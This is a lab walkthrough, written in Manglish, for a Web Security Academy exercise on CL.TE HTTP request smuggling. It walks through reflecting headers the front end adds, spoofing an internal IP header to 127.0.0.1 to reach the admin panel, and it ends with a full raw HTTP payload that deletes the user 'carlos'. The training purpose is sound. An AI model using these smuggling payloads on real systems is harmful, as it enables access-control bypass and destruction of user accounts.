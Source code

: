 -->ee search request (post) aan smuggled aayi vekunath.so ee smuggled request il enthoke add akunund enn namuk nokanam.so ee request inte thazhe body il aayi search parameter und athil ee smuggled request onumkoodi iduka enit url encode chyuka enit send adikumbol namuk response il kanam oru `X-DijiZK-Ip: 103.153.105.75` enna header ithil use aakkunund.request nok apo manasilakum :

                    POST / HTTP/1.1                ---1)
					Host: 0a8b0016043ddba9c0ae0ad300e800ee.web-security-academy.net
					Content-Type: application/x-www-form-urlencoded
					Content-Length: 124              ----2)
					Transfer-Encoding: chunked       ---3)
					
					0
					
					POST / HTTP/1.1       ---4)
					Content-Type: application/x-www-form-urlencoded
					Content-Length: 200       ---5)
					Connection: close
					
					search=POST+/+HTTP/1.1      ---6)
					Content-Type%3a+application/x-www-form-urlencoded
					Content-Length%3a+200
					Connection%3a+close

-->ivide 1) ennath GET / request aan.ath post aakiyathan.
-->2) um 3) um ariyalo ee rand headers accept chyunengile ee vulnerabilityk scope ulu
-->content-lenth correct 124 kodukanam.karanam front-end C.L aan nokunath
-->back-end chunked aan nokunath
-->ivide 4) ileyum 6) ileyum request same thane aan.4) il ulla request il enthoke aan front-end aad chyunath enn nokan aan ee search request il aa same smuggled request itt test chyunath.NOTE: url encode chyuka
-->5) il 200 enn koduthath enthoke aan namuk reflect chyendath ennanen thonun
-->so ee request ayakumbol response il namuk kanan patum enthoke aan server extra add chyunath.ivide `X-DijiZK-Ip: 103.153.105.75`  aan
-->so ee X-DijiZK-Ip: 127.0.0.1 enn koduth namuk admin pathilek keran patumon nokam
-->so aadyam smuggled request post ullath get aakuka.smuggled request ile C.L: 10 kodutkam enit aa search enna parameter maati just x=1 enn kodukam
-->ipol request ile bytes ellam mari so 2) ile lenth il 143 kodukuka enit send chhyumbol namuk admin panel response il kanam
-->chelapo kore pravisham send adikendi varum ok
-->ini ee smuglled request ile GET /admin maati `GET /admin/delete?username=carlos HTTP/1.1`   ennakiyal carlos inte account delete aakum.so lab solve aayi
-->final payload :

                        POST / HTTP/1.1
						Host: 0a8b0016043ddba9c0ae0ad300e800ee.web-security-academy.net
						Content-Type: application/x-www-form-urlencoded
						Content-Length: 166
						Transfer-Encoding: chunked
						
						0
						
						GET /admin/delete?username=carlos HTTP/1.1
						Content-Type: application/x-www-form-urlencoded
						X-DijiZK-Ip: 127.0.0.1
						Content-Length: 10
						Connection: close
						
